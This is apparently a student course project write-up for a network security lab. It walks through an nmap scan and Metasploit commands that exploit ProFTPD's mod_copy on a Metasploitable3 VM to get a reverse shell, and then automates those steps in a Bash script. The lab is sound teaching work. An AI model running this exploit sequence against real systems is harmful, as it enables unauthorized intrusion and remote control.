







# Detailed Project Steps for Network Compromise, Analysis, and Defense

This document details Phases 1 of the ICS344 course project into a single, step-by-step guide, integrating key screenshots and outputs from our steps.

---

## 1. Project Setup & Initial Compromise (Phase 1)

### 1.1. Environment Deployment

1. **Attacker Machine**: Deploy Kali Linux with Metasploit Framework.

<figure>
  
  <figcaption>Figure 1: Kali Linux attacker setup.</figcaption>
</figure>
2. **Victim Machine**: Deploy Metasploitable3‑ub1404 as the vulnerable target.
<figure>
  
  <figcaption>Figure 2: Metasploitable3 vulnerable VM deployment.</figcaption>
</figure>
3. **Network Configuration**: Ensure both machines are bridged on the same network (e.g., 10.0.2.0/24).

### 1.2. Identify & Exploit Vulnerable Service

1. **Port Scanning**: Use `nmap` to discover open services on the victim.

   ```bash
   nmap -sV 10.0.2.15
   ```

<figure>
  
  <figcaption>Figure 3: Nmap scan revealing FTP service on port 21.</figcaption>
</figure>

2. **Launch Metasploit**:

   ```bash
   msfconsole -q
   use exploit/unix/ftp/proftpd_modcopy_exec
   set RHOST 10.0.2.15
   set RPORT 21
   set LHOST 10.0.2.12
   set LPORT 4444
   ```

<figure>
  
  <figcaption>Figure 4: Metasploit console with RHOST, RPORT, LHOST, LPORT, module, and payload set.</figcaption>
</figure>

3. **Run the Exploit**: Execute the exploit to gain a shell on the victim.

   ```bash
   run  # or exploit
   ```

<figure>
  
  <figcaption>Figure 5: Running the exploit via `run` or `exploit` command.</figcaption>
</figure>

4. **Verify Shell Access**: Confirm the session is active (`session 4`) and commands can be executed.

   > **Note**: Shell access has been successfully verified, confirming the exploit worked as intended.

### 1.3. Automated Exploitation Script (Tasks 1.2 & 1.3)

1. **Script Creation**: Consolidate manual Metasploit commands into a Bash script (`exploit.sh`).
2. **Script Execution**: Run the script from the Kali terminal to automatically exploit the vulnerability.

<figure>
  
  <figcaption>Figure 6: Executing the automated `.sh` script replicating manual exploit commands.</figcaption>
</figure>
3. **Script Content**: The Bash file contains `use`, `set`, and `run` commands in sequence.
<figure>
  
  <figcaption>Figure 7: Screenshot of the `.sh` file containing automated exploit commands.</figcaption>
</figure>
